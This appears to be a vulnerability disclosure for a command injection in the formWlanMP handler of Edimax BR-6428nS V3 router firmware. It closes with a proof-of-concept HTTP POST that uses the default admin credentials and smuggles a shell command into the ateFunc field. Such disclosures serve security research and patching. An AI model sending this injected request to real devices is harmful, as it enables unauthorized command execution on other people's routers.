# Command Injection
## BR-6428nS V3 Firmware
Firmware Version: BR6428NSv3_1.20
You can download Firmware at this [website](https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_n300/br-6428ns_v3) and use FirmAE to simulate the router environment.
![](https://img.lovesandy.cc/usr/uploads/2022/11/988029035.png)

## Description
There is a command injection in `formWlanMP` Function of binary file webs.
![](https://img.lovesandy.cc/usr/uploads/2022/11/535536997.png)
![](https://img.lovesandy.cc/usr/uploads/2022/11/1880992564.png)
After obtaining the POST parameter, it is directly incorporated into the system function for execution without checking and filtering
![](https://img.lovesandy.cc/usr/uploads/2022/11/3033735612.png)

PS
You must pass basic verification before you can exploit this vulnerability
can find the user/passwd in [website](https://www.edimax.com/edimax/mw/cufiles/files/download/QIG/BR-6228nS_BR-6478nS_v3/BR-6428nSv3_BR-6228nSv3_TW_QIG.pdf)
![](https://img.lovesandy.cc/usr/uploads/2022/11/171193399.png)
![](https://img.lovesandy.cc/usr/uploads/2022/11/2425134361.png)

# POC
```
POST /goform/formWlanMP HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==
Connection: close
Referer: http://192.168.2.1/status.asp
Cookie: language=14
Upgrade-Insecure-Requests: 1

ateFunc=1;touch%20/tmp/Swe3ty&submit-url=%2Findex.asp

```
